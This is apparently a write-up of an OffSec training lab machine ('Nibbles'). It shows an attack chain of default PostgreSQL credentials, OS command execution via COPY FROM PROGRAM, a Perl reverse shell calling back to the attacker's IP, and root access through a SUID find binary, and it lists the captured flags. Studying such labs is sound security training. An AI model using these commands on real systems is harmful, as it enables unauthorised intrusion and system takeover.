







# Lab Report - Nibbles


# Overview 
- **Difficulty**: Intermediate
- **Community Rating**: Intermediate
- **Platform**: Linux
- **Link**: https://portal.offsec.com/machine/nibbles-209/overview/details

## Resolution Summary 
An Nmap scan revealed an exposed PostgreSQL service, which we could access using the default `postgres:postgres` credentials. Having noticed that we were `Superuser`, we abused this privilege to achieve OS command execution and ultimately gain a foothold on the target using a reverse shell. Finally, we escalated to root by abusing the `find` binary, which had the SUID bit set.

# Information Gathering 
- First of all, we performed an Nmap scan in order to reveal online services and their versions. We noticed that a PostgreSQL Instance was available externally:
```bash
sudo nmap 192.168.146.47 -p- -sCV
```
<p align="center">
  
</p>


- We gained an access to the PostgreSQL instance by using the default credentials `postgres:postgres`. Upon enumerating our privileges, we saw that we were a `Superuser`: 
```bash
psql -h 192.168.146.47 -U postgres -p 5437
\du+
```
<p align="center">
  
</p>

# Exploitation 
- Knowing that, we confirmed that we could execute OS commands on the target by running the `id` command:
```postgresql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```
<p align="center">
  
</p>


- Afterwards, we attempted to gain a shell session on the target by executing a reverse shell.
- First, we set up a listener: 
```bash
penelope -p 80
```

- Then we executed a Perl reverse shell, allowing us to gain a foothold on the target: 
```postgresql 
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.213:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```
<p align="center">
  
</p>


- We proceeded to collect the first flag: 
```bash
cat /home/wilson/local.txt && id && ip a
```
<p align="center">
  
</p>


# Privilege Escalation 
- After listing binaries that have SUID bit set, we discovered that `find` was one of them: 
```bash
find / -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
<p align="center">
  
</p>


- Hence, we could immediately gain a root shell and retrieved the last flag: 
```bash
find . -exec /bin/sh -p \; -quit
id
cat /root/proof.txt && id && ip a
```
<p align="center">
  
</p>


# Trophy 
**local.txt → `ed4f12ffd5e52f043c6ea84b04593dcd`**  

**proof.txt → `3ad8c2504673560f977b6ff28b45a750`**

# Lessons Learned
- To specify the port when using `psql`, try the `-p` flag.
	- Much relevant in our case here since without specifying the said port, the connection attempt would hang (likely because it attempts to reach 5432, instead of 5437 in our case).
